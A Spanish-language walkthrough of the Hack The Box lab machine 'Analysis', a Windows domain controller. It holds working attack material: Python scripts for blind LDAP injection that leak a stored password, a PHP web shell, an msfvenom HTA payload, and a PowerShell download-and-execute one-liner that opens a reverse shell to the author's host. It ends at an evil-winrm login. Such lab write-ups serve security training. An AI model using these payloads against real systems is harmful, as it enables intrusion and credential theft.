

Hack The Box: Analysis Writeup
Welcome to my detailed writeup of the hard difficulty machine “Analysis” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1$ rustscan -a 10.129.230.179 --ulimit 5000 -g
210.129.230.179 -> [53,80,88,135,139,389,445,464,593,3306,5985,9389,33060,47001,49666,49664,49667,49665,49671,49678,49679,49682,49691,49704,49717,49719] 1$ nmap -p53,80,88,135,139,389,445,464,593,3306,5985,9389,33060,47001,49666,49664,49667,49665,49671,49678,49679,49682,49691,49704,49717,49719 -sCV 10.129.230.179 -oN allPorts
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:29 CEST
3Nmap scan report for 10.129.230.179
4Host is up (0.042s latency).
5
6PORT STATE SERVICE VERSION
753/tcp open domain Simple DNS Plus
880/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9|_http-server-header: Microsoft-HTTPAPI/2.0
10|_http-title: Not Found
1188/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-12 15:30:00Z)
12135/tcp open msrpc Microsoft Windows RPC
13139/tcp open netbios-ssn Microsoft Windows netbios-ssn
14389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
15445/tcp open microsoft-ds?
16464/tcp open kpasswd5?
17593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
183306/tcp open mysql MySQL (unauthorized)
195985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
20|_http-server-header: Microsoft-HTTPAPI/2.0
21|_http-title: Not Found
229389/tcp open mc-nmf .NET Message Framing
2333060/tcp open mysqlx?
24| fingerprint-strings:
25| DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe:
26| Invalid message"
27| HY000
28| LDAPBindReq:
29| *Parse error unserializing protobuf message"
30| HY000
31| oracle-tns:
32| Invalid message-frame."
33|_ HY000
3447001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
35|_http-title: Not Found
36|_http-server-header: Microsoft-HTTPAPI/2.0
3749664/tcp open msrpc Microsoft Windows RPC
3849665/tcp open msrpc Microsoft Windows RPC
3949666/tcp open msrpc Microsoft Windows RPC
4049667/tcp open msrpc Microsoft Windows RPC
4149671/tcp open msrpc Microsoft Windows RPC
4249678/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
4349679/tcp open msrpc Microsoft Windows RPC
4449682/tcp open msrpc Microsoft Windows RPC
4549691/tcp open msrpc Microsoft Windows RPC
4649704/tcp open msrpc Microsoft Windows RPC
4749717/tcp open msrpc Microsoft Windows RPC
4849719/tcp open msrpc Microsoft Windows RPC
491 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
50SF-Port33060-TCP:V=7.94SVN%I=7%D=8/12%Time=66BA467F%P=x86_64-pc-linux-gnu%
51SF:r(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0
52SF:\0\0\x0b\x08\x05\x1a\0")%r(HTTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
53SF:)%r(RTSPRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\
54SF:0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B,"\x05\0\0\0\x0b\x08\x0
55SF:5\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05H
56SF:Y000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SSLSessionReq,2B,"\x0
57SF:5\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid
58SF:\x20message\"\x05HY000")%r(TerminalServerCookie,9,"\x05\0\0\0\x0b\x08\x
59SF:05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x
60SF:01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(Kerberos,9
61SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,"\x05\0\0\0\x0b\x08\x05
62SF:\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\
63SF:x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(FourOhFourRequest
64SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9,"\x05\0\0\0\x0b\x08\x0
65SF:5\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x0
66SF:1\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(LDAPBindReq
67SF:,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\x08\x01\x10\x88'\x1a\*Pa
68SF:rse\x20error\x20unserializing\x20protobuf\x20message\"\x05HY000")%r(SIP
69SF:Options,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0
70SF:b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
71SF:NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08
72SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
73SF:05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\
74SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"\x05\0\0\0\x0b\x08\x05\x
75SF:1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid\x20message-frame\.\"\x0
76SF:5HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(giop,9,"\x05\0\
77SF:0\0\x0b\x08\x05\x1a\0");
78Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows
79
80Host script results:
81| smb2-time:
82| date: 2024-08-12T15:30:55
83|_ start_date: N/A
84| smb2-security-mode:
85| 3:1:1:
86|_ Message signing enabled and required
87|_clock-skew: -1h59m30s
88
89Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
90Nmap done: 1 IP address (1 host up) scanned in 70.94 secondUDP Enumeration
1$ sudo nmap --top-ports 1500 10.129.230.179 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:36 CEST
3Nmap scan report for 10.129.230.179
4Host is up (0.042s latency).
5Not shown: 1497 open|filtered udp ports (no-response)
6PORT STATE SERVICE
788/udp open kerberos-sec
8123/udp open ntp
918985/udp closed unknown
10
11Nmap done: 1 IP address (1 host up) scanned in 1.00 secondsAñadimos el dominio analysis.htb al /etc/hosts
Vemos los típicos puertos abiertos en un DC, LDAP, RPC, SMB… Pero a parte vemos el puerto 3306/TCP correspondiente a MySQL, para tenerlo en cuenta.
Enumerating SMB
1$ smbclient -L \\10.129.230.179 -U -N
2Password for [WORKGROUP\-N]:
3┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/scan]
4└──╼ [★]$ smbclient -L \\10.129.230.179 -U '' -N
5
6 Sharename Type Comment
7 --------- ---- -------
8Reconnecting with SMB1 for workgroup listing.
9do_connect: Connection to 10.129.230.179 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
10Unable to connect with SMB1 -- no workgroup availablePor ahora no podemos hacer enumerar mediante SMB sin credenciales válidas.
RPC Enumeration
1$ rpcclient -U "" 10.129.230.179 -N
2rpcclient $> enumdomusers
3result was NT_STATUS_ACCESS_DENIED
4rpcclient $> enumdomgroups
5result was NT_STATUS_ACCESS_DENIEDLo mismo mediante RPC.
DNS Enumeration
Siempre que me enfrento contra un servidor DNS, me gusta enumerar subdominios realizando un ataque de fuerza bruta con dnsenum
Descubrimos el NS dc-analysis.analysis.htb y un dominio adicional internal.analysis.htb.
1$ dnsenum -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --dnsserver 10.129.230.179 analysis.htb
2dnsenum VERSION:1.2.6
3
4----- analysis.htb -----
5
6
7Host's addresses:
8__________________
9
10analysis.htb. 600 IN A 10.129.230.179
11
12
13Name Servers:
14______________
15
16dc-analysis.analysis.htb. 3600 IN A 10.129.230.179
17
18
19Mail (MX) Servers:
20___________________
21
22
23
24Trying Zone Transfers and getting Bind Versions:
25_________________________________________________
26
27unresolvable name: dc-analysis.analysis.htb at /usr/bin/dnsenum line 900.
28
29Trying Zone Transfer for analysis.htb on dc-analysis.analysis.htb ...
30AXFR record query failed: no nameservers
31
32
33Brute forcing with /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt:
34__________________________________________________________________________________
35
36www.analysis.htb. 3600 IN A 192.168.1.100
37internal.analysis.htb. 3600 IN A 192.168.1.100
38gc._msdcs.analysis.htb. 600 IN A 10.129.230.179Alternativamente también podríamos haber descubierto el NS con dig
1$ dig NS analysis.htb @10.129.230.179
2
3; <<>> DiG 9.18.24-1-Debian <<>> NS analysis.htb @10.129.230.179
4;; global options: +cmd
5;; Got answer:
6;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44364
7;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2
8
9;; OPT PSEUDOSECTION:
10; EDNS: version: 0, flags:; udp: 4000
11;; QUESTION SECTION:
12;analysis.htb. IN NS
13
14;; ANSWER SECTION:
15analysis.htb. 3600 IN NS dc-analysis.analysis.htb.
16
17;; ADDITIONAL SECTION:
18dc-analysis.analysis.htb. 3600 IN A 10.129.230.179
19
20;; Query time: 36 msec
21;; SERVER: 10.129.230.179#53(10.129.230.179) (UDP)
22;; WHEN: Mon Aug 12 19:48:19 CEST 2024
23;; MSG SIZE rcvd: 83LDAP Enumeration
1$ ldapsearch -x -H ldap://10.129.230.179 -D '' -w '' -b "DC=internal,DC=analysis,DC=htb"
2# extended LDIF
3#
4# LDAPv3
5# base <DC=internal,DC=analysis,DC=htb> with scope subtree
6# filter: (objectclass=*)
7# requesting: ALL
8#
9
10# search result
11search: 2
12result: 1 Operations error
13text: 000004DC: LdapErr: DSID-0C090CF4, comment: In order to perform this opera
14 tion a successful bind must be completed on the connection., data 0, v4563
15
16# numResponses: 1Por LDAP sin credenciales tampoco conseguimos nada.
HTTP Enumeration
1$ whatweb http://analysis.htb
2http://analysis.htb [200 OK] Country[RESERVED][ZZ], Email[mail@demolink.org,privacy@demolink.org], HTTPServer[Microsoft-IIS/10.0], IP[10.129.230.179], JQuery, Microsoft-IIS[10.0], Script[text/javascript]
3┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/scan]
4└──╼ [★]$ whatweb http://internal.analysis.htb
5http://internal.analysis.htb [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.230.179], Microsoft-IIS[10.0], Title[403 - Interdit�: acc�s refus�.]Vemos que internal.analysis.htb y analysis.htb devuelven información distinta por lo cual podemos deducir que se está aplicando virtual hosting por detrás.
Enumerating analysis.htb
Esta es la pinta del sitio web.

Detectamos un nombre de usuario.

También encontramos un archivo PHP que se le manda varia data por POST.

Si intentamos mandar una solicitud POST con la data que vemos en el script JS, vemos lo siguiente.
Un error 500 pero en francés. Esto hay que tenerlo en cuenta ya que cuentas de sistema como la cuenta de Administrador, puede que se llame Administrateur
1$ curl -X POST http://analysis.htb/bat/MailHandler.php --data "name=holaholahola&state=holahgolaholah&phone=7227272722&fax=722727272&message=hjolhoalhaoh"
2<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
3<html xmlns="http://www.w3.org/1999/xhtml">
4<head>
5<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"/>
6<title>500 - Erreur interne au serveur.</title>
7<style type="text/css">
8<!--
9body{margin:0;font-size:.7em;font-family:Verdana, Arial, Helvetica, sans-serif;background:#EEEEEE;}
10fieldset{padding:0 15px 10px 15px;}
11h1{font-size:2.4em;margin:0;color:#FFF;}
12h2{font-size:1.7em;margin:0;color:#CC0000;}
13h3{font-size:1.2em;margin:10px 0 0 0;color:#000000;}
14#header{width:96%;margin:0 0 0 0;padding:6px 2% 6px 2%;font-family:"trebuchet MS", Verdana, sans-serif;color:#FFF;
15background-color:#555555;}
16#content{margin:0 0 0 2%;position:relative;}
17.content-container{background:#FFF;width:96%;margin-top:8px;padding:10px;position:relative;}
18-->
19</style>
20</head>
21<body>
22<div id="header"><h1>Erreur de serveur</h1></div>
23<div id="content">
24 <div class="content-container"><fieldset>
25 <h2>500 - Erreur interne au serveur.</h2>
26 <h3>La ressource que vous recherchez pr�sente un probl�me, elle ne peut donc pas �tre affich�e.</h3>
27 </fieldset></div>
28</div>
29</body>
30</html>No encuentro nada relevante sobre este archivo.
Enumerating internal.analysis.htb
Con feroxbuster podemos encontrar varias rutas que puede que nos interese.
1301 GET 2l 10w 170c http://internal.analysis.htb/users => http://internal.analysis.htb/users/
2301 GET 2l 10w 174c http://internal.analysis.htb/dashboard => http://internal.analysis.htb/dashboard/
3301 GET 2l 10w 170c http://internal.analysis.htb/Users => http://internal.analysis.htb/Users/
4301 GET 2l 10w 174c http://internal.analysis.htb/employees => http://internal.analysis.htb/employees/
5301 GET 2l 10w 174c http://internal.analysis.htb/Dashboard => http://internal.analysis.htb/Dashboard/Después de fuzzear un rato, encontramos algunos recursos interesantes bajo /dashboard.

Y encontramos algo que me llama mucho la atención en /users

Me pide un parámetro.
Esto nos viene perfectos ya que como kerberos está abierto, quizás podemos listar usuarios y pensar en algún vector de ataque.
Solo falta descubrir cual es el parámetro que necesita, así que con wfuzz vamos a fuzzear los parámetros.
1$ wfuzz --hh=17 -c -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://internal.analysis.htb/users/list.php?FUZZ=loquesea'
2 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
3********************************************************
4* Wfuzz 3.1.0 - The Web Fuzzer *
5********************************************************
6
7Target: http://internal.analysis.htb/users/list.php?FUZZ=loquesea
8Total requests: 6453
9
10=====================================================================
11ID Response Lines Word Chars Payload
12=====================================================================
13
14000003598: 200 0 L 11 W 406 Ch "name"Y encontramos el parámetro name

Ahora bien, debo de saber que nombres de usuario hay que introducir para ver su información así que estamos en las mismas.
Pero por detrás se debe de estar haciendo alguna consulta a una base de datos.
LDAP Injection
Tras probar varios payloads para una SQLi, probé el asterisco * y me devolvió un usuario. Esto es un indicio de que por detrás se están haciendo consultas por LDAP.

Vamos a scriptear esto con python para descubrir usuarios.
Esta es la primera versión del script para buscar usuarios.
1#!/usr/bin/python3
2import requests
3import string
4import html2text
5import os
6import re
7import signal
8from pwn import *
9from itertools import product
10
11base_url = "http://internal.analysis.htb/users/list.php"
12
13charset = string.ascii_lowercase # a-z
14
15h2t = html2text.HTML2Text()
16h2t.ignore_linkgs = True
17
18user_regex = re.compile(r'<strong>(.*?)</strong>')
19
20users = []
21
22def def_handler(x,y):
23 log.info("Saliendo..")
24 log.info(f"Usuarios recuperados {len(users)}")
25 for user in users:
26 print(user)
27 exit(1)
28
29signal.signal(signal.SIGINT,def_handler)
30
31def check_user(prefix):
32 url = f"{base_url}?name={prefix}*"
33 response = requests.get(url)
34
35 if "CONTACT_" not in response.text:
36 name = user_regex.search(response.text).group(1)
37 print(f"Found user with prefix '{prefix}': | user -> {name}")
38 print(h2t.handle(response.text))
39 users.append(name)
40 return True
41 return False
42
43def enumerate_users():
44 p = log.progress("Probando")
45 for length in range(1, 9):
46 for prefix in product(charset, repeat=length):
47 prefix_str = ''.join(prefix)
48 p.status(prefix_str)
49 check_user(prefix_str)
50
51if __name__ == "__main__":
52 log.info("Iniciando fuerza bruta")
53 enumerate_users()Después de esperar un rato recuperamos algunos usuarios.
1Found user with prefix 'te': | user -> technician
2## Search result
3
4Username| Last Name| First Name| Company| Department| Office Phone| Fax|
5Mobile| DDI| E-Mail Address| Home Phone
6---|---|---|---|---|---|---|---|---|---|---
7**technician**| | technician| | | | | | | |
8
9
10[*] Saliendo..
11[*] Usuarios recuperados 10
12amanson
13badam
14jangel
15lzen
16technician
17amanson
18badam
19jangel
20lzen
21technicianQuitando los duplicados.
1$ sort users.dup.txt | uniq > users.txt
2┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/analysis/content]
3└──╼ [★]$ cat users.txt
4amanson
5badam
6jangel
7lzen
8pleazkin
9technicianPodemos confirmar que estos usuarios son válidos a nivel de sistema con kerbrute
1$ /opt/kerbrute userenum --dc 10.129.230.179 -d analysis.htb users.txt
2
3 __ __ __
4 / /_____ _____/ /_ _______ __/ /____
5 / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
6 / ,< / __/ / / /_/ / / / /_/ / /_/ __/
7/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
8
9Version: v1.0.3 (9dad6e1) - 08/12/24 - Ronnie Flathers @ropnop
10
112024/08/12 20:39:37 > Using KDC(s):
122024/08/12 20:39:37 > 10.129.230.179:88
13
142024/08/12 20:39:37 > [+] VALID USERNAME: amanson@analysis.htb
152024/08/12 20:39:37 > [+] VALID USERNAME: badam@analysis.htb
162024/08/12 20:39:37 > [+] VALID USERNAME: lzen@analysis.htb
172024/08/12 20:39:37 > [+] VALID USERNAME: jangel@analysis.htb
182024/08/12 20:39:37 > [+] VALID USERNAME: technician@analysis.htb
192024/08/12 20:39:37 > Done! Tested 6 usernames (5 valid) in 0.043 secondsPodemos probar a solicitar un ticket TGT pero esto no sirve..
1$ impacket-GetNPUsers -no-pass -usersfile users.txt analysis.htb/
2Impacket v0.11.0 - Copyright 2023 Fortra
3
4[-] User amanson doesn't have UF_DONT_REQUIRE_PREAUTH set
5[-] User badam doesn't have UF_DONT_REQUIRE_PREAUTH set
6[-] User jangel doesn't have UF_DONT_REQUIRE_PREAUTH set
7[-] User lzen doesn't have UF_DONT_REQUIRE_PREAUTH set
8[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
9[-] User technician doesn't have UF_DONT_REQUIRE_PREAUTH setPor lo cual, podemos intentar recuperar el campo description que existe por defecto para ver si contiene algo para cada usuario.
Primero debemos fabricar nuestro payload.
Después de un rato probando (no tengo mucha experiencia en inyecciones LDAP), encontramos lo siguiente.
Este payload me devuelve algo:
*)(description=*

Pero este otro payload no *)(description=A

Esto significa que tenemos una inyección a ciegas, y podemos filtrar la descripción de cada usuario.
Falta scriptearlo. Si esto no funciona, podemos modificar el script para descubrir campos que quizás nos interesen.
Primero me interesa saber que usuarios tienen una descripción.
1#!/usr/bin/python3
2import requests
3from pwn import *
4import string
5
6URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
7DEFAULT_LEN = 406
8alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"
9
10def brute(user):
11 forged_url = URL.replace("<USER>", user)
12 p = log.progress("Probando carácter ->")
13 for char in alphabet:
14 p.status(char)
15 r = requests.get(forged_url.replace("<DESC>", char + "*"))
16 if (len(r.text) != DEFAULT_LEN):
17 p.success("El usuario %s tiene descripción" % user)
18
19
20def desc():
21 with open('users.txt', 'r', encoding="utf-8") as file:
22 p = log.progress("Usuario ->")
23 for user in file:
24 username = user.strip()
25 p.status(username)
26 brute(username)
27
28
29
30if __name__ == "__main__":
31 desc()Vemos que el usuario technician es el único que tiene descripción.
1$ python3 description.py
2[↓] Usuario ->: technician
3[ ] Probando carácter ->: ;
4[.\......] Probando carácter ->: ;
5[0] Probando carácter ->: ;
6[◣] Probando carácter ->: ;
7[◑] Probando carácter ->: ;
8[+] Probando carácter ->: El usuario technician tiene descripciónAhora este es el script para bruteforcear la descripción.
1#!/usr/bin/python3
2import requests
3from pwn import *
4import string
5
6URL = "http://internal.analysis.htb/users/list.php?name=<USER>)(description=<DESC>"
7DEFAULT_LEN = 406
8alphabet = string.ascii_letters + string.digits + "_@{}-/!\"$%=^[]:;"
9
10def brute(user, known_prefix=""):
11 forged_url = URL.replace("<USER>", user)
12 description = known_prefix
13
14 p = log.progress("Probando carácter ->")
15 while True:
16 found_char = False
17
18 for char in alphabet:
19 p.status(description+char)
20 r = requests.get(forged_url.replace("<DESC>", description + char + "*"))
21 if len(r.text) != DEFAULT_LEN:
22 description += char
23 found_char = True
24 break # Salir del bucle interno
25
26 if not found_char:
27 p.success(f"Descripción final descubierta: {description}")
28 break # Salir del bucle externo
29
30def desc():
31 p = log.progress("Usuario ->")
32 username = "technician"
33 p.status(username)
34 brute(username)
35
36if __name__ == "__main__":
37 desc()Si lo dejamos un rato..
1$ python3 description.py
2[▃] Usuario ->: technician
3[+] Probando carácter ->: Descripción final descubierta: 97NTtlPero esta credencial es inválida.
1$ nxc smb 10.129.230.179 -u technician -p 97NTtl
2SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
3SMB 10.129.230.179 445 DC-ANALYSIS [-] analysis.htb\technician:97NTtl STATUS_LOGON_FAILUREHe omitido los caracteres ( ) y * porque rompían la inyección, por lo cual supongo que la credencial contiene alguno de estos caracteres.

Añado el carácter *. El problema es que puede dar falsos positivos, si esto es así, bruteforcearé luego con netexec los posibles campos que falten.
1$ python3 description.py
2[d] Usuario ->: technician
3[↗] Probando carácter ->: 97NTtl*4QP96Bv**aaaaaaaaaaaLa a surge ya que la consulta por LDAP se rompe al introducir doble *. Por lo cual podemos probar como credencial 97NTtl*4QP96Bv
¡Y es válida!
1$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
2SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
3SMB 10.129.230.179 445 DC-ANALYSIS [+] analysis.htb\technician:97NTtl*4QP96BvEste usuario no está en el grupo de Remote Management Users por lo cual no podemos conseguir una consola interactiva utilizando herramientas como evil-winrm
1$ nxc winrm 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
2WINRM 10.129.230.179 5985 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
3WINRM 10.129.230.179 5985 DC-ANALYSIS [-] analysis.htb\technician:97NTtl*4QP96BvPor SMB tampoco vemos ningún recurso compartido a nivel de red interesante.
1$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv' --shares
2SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
3SMB 10.129.230.179 445 DC-ANALYSIS [+] analysis.htb\technician:97NTtl*4QP96Bv
4SMB 10.129.230.179 445 DC-ANALYSIS [*] Enumerated shares
5SMB 10.129.230.179 445 DC-ANALYSIS Share Permissions Remark
6SMB 10.129.230.179 445 DC-ANALYSIS ----- ----------- ------
7SMB 10.129.230.179 445 DC-ANALYSIS ADMIN$ Administration à distance
8SMB 10.129.230.179 445 DC-ANALYSIS C$ Partage par défaut
9SMB 10.129.230.179 445 DC-ANALYSIS IPC$ READ IPC distant
10SMB 10.129.230.179 445 DC-ANALYSIS NETLOGON READ Partage de serveur d'accès
11SMB 10.129.230.179 445 DC-ANALYSIS SYSVOL READ Partage de serveur d'accèsPero tenemos unas credenciales.
Enumerating HTTP (again)
Al no ver nada interesante con estas credenciales, podemos seguir enumerando internal.analysis.htb ya que antes enumeré mas profundamente los recursos /users y /dashboard pero me falta /employees
1$ feroxbuster -u http://internal.analysis.htb/employees/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -d 1 -t 100 -x php,asp,aspxY encontramos un recurso login.php
1200 GET 30l 60w 1085c http://internal.analysis.htb/employees/login.php
Pide el email para iniciar sesión
Probando technician@analysis.htb:97NTtl*4QP96Bv podemos iniciar sesión.

Vemos una sección Messages donde algunos usuarios se están quejando de que el servidor va lento, puede ser por el fuzzeo que hemos realizado. Me gusta el realismo que han aplicado en esta máquina.

Vemos algunos To Dos, por lo que veo existe algún sistema de tickets detrás, y el recordatorio mas importante de aquí es que se están quejando de que no tienen café en las oficinas.
Podemos ver tickets.

Los mas relevantes este que menciona problemas con un ticket TGT.
Y este en el cual un usuario se queja de que no puede ejecutar un archivo HTA, hay tenerlo en cuenta ya que podríamos fabricar un archivo HTA malicioso y que este usuario al ejecutarlo nos mande una consola interactiva.

Luego vemos que tenemos una subida de archivos que supuestamente, lo que subamos será analizado por el equipo de SOC. Si Clara Williams pertenece a este equipo, quizás ejecute un archivo HTA si lo subimos.

También vemos un panel que se enviará a un usuario, podríamos probar XSS aquí.

Foothold
Vamos a probar a subir un archivo .hta
Creamos el payload con msfvenom
1$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f hta-psh > shell.hta
2[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
3[-] No arch selected, selecting arch: x86 from the payload
4No encoder specified, outputting raw payload
5Payload size: 324 bytes
6Final size of hta-psh file: 7407 bytesPero al enviar el archivo no recibimos la shell…
Alternativamente podemos crear un archivo info.php
1<?php
2 phpinfo();
3?>
Y al subirlo, podemos ver que el archivo existe en la ruta /dashboard/uploads/info.php

No existen disable_functions

Creamos una web_shell…
1<?php
2 echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
3?>
Y conseguimos ejecución remota de comandos.
Ahora para mandarnos la consola utilizamos el script Invoke-PowerShellTcp.ps1 de nishang
Y a lo último del script añadimos esta línea.
Servimos este archivo con python por el puerto 8081.
1$ python3 -m http.server 8081
2Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...Ahora utilizamos este one-liner para descargar y ejecutar el script.
http://internal.analysis.htb/dashboard/uploads/shell.php?cmd=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.13:8081/Invoke-PowerShellTcp.ps1%27)%20|%20powershell%20-noprofile%20-
Y…
110.129.230.179 - - [12/Aug/2024 22:03:22] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -1$ sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.13] from (UNKNOWN) [10.129.230.179] 62413
4Windows PowerShell running as user DC-ANALYSIS$ on DC-ANALYSIS
5Copyright (C) 2015 Microsoft Corporation. All rights reserved.
6
7PS C:\inetpub\internal\dashboard\uploads>whoami
8analysis\svc_webPodemos ver que el sistema está en francés, así que cuidado con el nombre de cuentas de usuario.
De hecho podemos comprobar el nombre de la cuenta del administrador.
User Pivoting | jdoe
Pasando el winPEASx64.exe encontramos unas credenciales en el autologon para el usuario jdoe

1$ nxc smb analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
2SMB 10.129.230.179 445 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
3SMB 10.129.230.179 445 DC-ANALYSIS [+] analysis.htb\jdoe:7y4Z4^*y9ZzjComprobamos que son válidas..
1$ nxc winrm analysis.htb -u 'jdoe' -p '7y4Z4^*y9Zzj'
2WINRM 10.129.230.179 5985 DC-ANALYSIS [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
3WINRM 10.129.230.179 5985 DC-ANALYSIS [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)Y está en el grupo Remote Management Users por lo cual con evil-winrm..
1$ evil-winrm -i 10.129.230.179 -u jdoe -p '7y4Z4^*y9Zzj'
2
3Evil-WinRM shell v3.5
4
5Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
6
7Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
8
9Info: Establishing connection to remote endpoint
